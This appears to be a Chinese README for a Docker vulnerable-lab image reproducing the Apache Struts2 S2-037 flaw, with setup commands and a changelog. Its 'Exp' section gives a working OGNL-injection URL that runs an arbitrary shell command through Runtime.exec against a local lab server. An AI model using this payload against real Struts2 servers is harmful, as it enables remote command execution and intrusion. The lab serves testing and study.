

## Struts2 S2-037 漏洞环境

### 说明

 官方 demo 中提供的 war 包由于添加了 jsp 拦截器，配置会有问题，修正了一下。

### 漏洞信息

 * [S2-037 官方公告](http://struts.apache.org/docs/s2-037.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-037
 ```

2. 启动环境

 ```
$ docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-037
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

假定启动后的地址为：http://127.0.0.1:8080/

执行 id 命令：

```
http://127.0.0.1:8080/orders/4/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=id
```

> 修改参数 command 的值为你要执行的命令



### 改动日志

20160731

 * 修正资源为本地路径

20160909

 ＊ 修正开启 devMode 后导致找不到类的问题
